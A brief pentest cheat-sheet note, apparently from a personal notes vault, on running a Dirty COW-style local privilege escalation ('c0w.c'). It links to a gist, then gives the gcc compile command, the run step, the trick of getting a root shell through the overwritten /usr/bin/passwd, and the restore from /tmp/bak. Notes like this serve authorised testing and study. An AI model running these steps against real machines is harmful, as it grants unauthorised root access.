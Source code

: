 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

[https://gist.github.com/KrE80r/42f8629577db95782d5e4f609f437a54](https://gist.github.com/KrE80r/42f8629577db95782d5e4f609f437a54)

Download and compile it **using the instructions in the file** <u>**As in, Uncommenting the correct payload!**</u>:

```bash - target
gcc -pthread c0w.c -o c0w
```

Run the exploit:

```bash - target
./c0w
```

Once the exploit is complete, simply execute the 
/usr/bin/passwd binary to get a root shell:

```bash - target
/usr/bin/passwd
```

Restore the original file ==when complete:==

```bash - target
cp /tmp/bak /usr/bin/passwd
```


Last updated: `$= dv.current().file.mtime.toFormat("MMMM dd, yyyy 'at' HH:mm")`

